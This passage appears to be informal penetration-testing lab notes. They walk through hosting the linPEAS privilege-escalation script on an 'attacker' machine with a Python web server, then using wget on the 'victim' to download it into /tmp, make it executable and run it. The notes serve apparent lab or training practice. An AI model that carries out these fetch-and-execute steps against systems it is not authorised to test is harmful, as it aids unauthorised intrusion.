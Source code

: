 ```
python3 -m http.server 8000
```

**THIS LETS YOU HOST A WEBSERVER WITH PYTHON**


**Set up another port fowarding rule with this port number because thats where the websever is.**

#### Type in web browser

```
127.0.0.1:8000
```

**Were going to download linPEAS to ourselves (ATTACKER) and then access it through the 
web server from the victim side. Basically hosting linPeas utulizing python throwing it
up on a webpage and the downloading it from victim.**

### (VICTIM)

```
wget http://192.168.122.209:8000/linpeas.sh
```

**(I WENT TO THE WEBPAGE AND CLICKED THE _linpeas.sh_ LINK)**

```
ls
```

```
mv linpeas.sh /tmp
```

```
cd /tmp
```

```
ls
```

```
chmod u+x linpeas.sh
```

```
ls -al
```

**(capture everything you run in TERMINAL)**

`(ctl a + H)`


```
./linpeas.sh 
```

```
watch ls -l
```
